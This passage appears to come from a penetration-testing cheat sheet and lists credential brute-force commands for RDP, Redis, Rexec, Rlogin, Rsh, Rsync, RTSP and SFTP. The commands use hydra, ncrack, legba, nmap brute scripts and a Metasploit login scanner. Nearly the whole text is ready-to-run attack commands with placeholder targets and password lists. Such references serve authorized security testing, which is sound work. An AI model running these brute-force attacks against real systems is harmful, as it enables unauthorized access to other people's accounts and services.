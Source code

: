 ### RDP

```bash
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
legba rdp --target localhost:3389 --username admin --password data/passwords.txt [--rdp-domain <RDP_DOMAIN>] [--rdp-ntlm] [--rdp-admin-mode] [--rdp-auto-logon]
```

### Redis

```bash
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt redis://<IP>:<PORT> # 6379 is the default
legba redis --target localhost:6379 --username admin --password data/passwords.txt [--redis-ssl]
```

### Rexec

```bash
hydra -l $user -P <password_file> rexec://<Victim-IP> -v -V
```

### Rlogin

```bash
hydra -l $user -P <password_file> rlogin://<Victim-IP> -v -V
```

### Rsh

```bash
hydra -L <Username_list> rsh://<Victim_IP> -v -V
```

[http://pentestmonkey.net/tools/misc/rsh-grind](http://pentestmonkey.net/tools/misc/rsh-grind)

### Rsync

```bash
nmap -sV --script rsync-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 873 <IP>
```

### RTSP

```bash
hydra -l root -P passwords.txt <IP> rtsp
```

### SFTP

```bash
legba sftp --username admin --password wordlists/passwords.txt --target localhost:22
# Try keys from a folder
legba sftp --username admin --password '@/some/path/*' --ssh-auth-mode key --target localhost:22
```
